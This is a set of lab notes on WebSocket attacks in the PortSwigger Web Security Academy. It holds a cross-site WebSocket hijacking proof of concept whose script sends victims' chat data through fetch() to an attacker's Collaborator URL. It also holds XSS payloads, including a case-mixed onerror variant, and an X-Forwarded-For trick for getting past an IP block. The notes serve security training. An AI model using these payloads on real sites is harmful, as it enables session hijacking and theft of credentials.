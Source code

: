 # Web-Sockets

## LAB 00: ****Cross-site Web-Socket hijacking****

### Overall

Right after you go to /chat page, the blog will response with a page with a form that will accept your input and then show it in the live chat. Inside the form will have an action that contain wss protocol.

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled.png)

Note for the handshake request appear loading when you go to /chat panel for live chatting, you may saw the request that response with 101 switching protocol mean switch from https to wss, start a tunnel for bi-directional communicate. 

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%201.png)

From here, switch to websocket panel will show you everything you communicate over wss.

And noted that the request above do not contain any mechanism to protect again CSRF which is mentioned in CSRF section.

### Step to reproduce

So, you are as a anonymous user, you may capture [this package](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361.md), you may want to perform a CSRF attack that target over the wss communication that are not protected by anything against CSRF like SameSite or CSRF tokens.

Then you can use the below POC code to conduct the attack target the vulnerable website.

POC:

```jsx
<script>
websocket = new WebSocket('wss://[ID].web-security-academy.net/chat') 
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://[collab_url]/?'+event.data, {mode: 'no-cors'})
}
</script>
```

Noted that in the 1st line of the code, you must change the URL from https to wss for targeting the Websocket protocol.

This attack want to mimic the live chat function that the original page perform, but the attacker create a page in context that the user will click in and then perform the live chat with their session still appear, pretended that the user already login.

Then everything the user chat in the live chat will go through the Collaborator, in this case act as a place where the attacker can GET content from the page attacker created.

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%202.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%203.png)

Then,you may see a content that talk about forgot password and then the admin return the password of carlos to him via live chat. This also expose the credential to us, act like the MitM.

### Mitigation

This type of attack is more like CSRF but in the context of websocket. So, to mitigate this type of attack, perform those mitigations that recommended in CSRF is necessary.

TLS over http or ws is always recommended. 

### Appendix

[Cross-Site WebSocket Hijacking (CSWSH)](https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc)

[Cross-site WebSocket hijacking (CSWSH)](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)

TLS encryption, wss protocol, play over HTTP, bi—directional & full duplex. —> real time use cases 

- The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.
- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use.
- The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request.
- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the `Sec-WebSocket-Key` request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

## LAB 01: ****Manipulating WebSocket messages to exploit vulnerabilities****

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%204.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%205.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%206.png)

```jsx
asdasd<a onclick=alert(1)>asdasd</a>asdas
asdas<img src=0 onerror=alert(2)>asda
```

## LAB 02: ****Manipulating the WebSocket handshake to exploit vulnerabilities****

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%207.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%208.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%209.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%2010.png)

![Untitled](Web-Sockets%20083b2ed69fff4211942e46b5ff5c2361/Untitled%2011.png)

```jsx
<img src=1 oNeRrOr=alert`1`> 
Add X-Forwarded-For to header: [IP]
```

### Extra:

****Hijack WS:**** [https://www.youtube.com/watch?v=NbWRPaOhcps](https://www.youtube.com/watch?v=NbWRPaOhcps)

Auto fuzz: [https://www.youtube.com/watch?v=DCCo3ofj2G0](https://www.youtube.com/watch?v=DCCo3ofj2G0)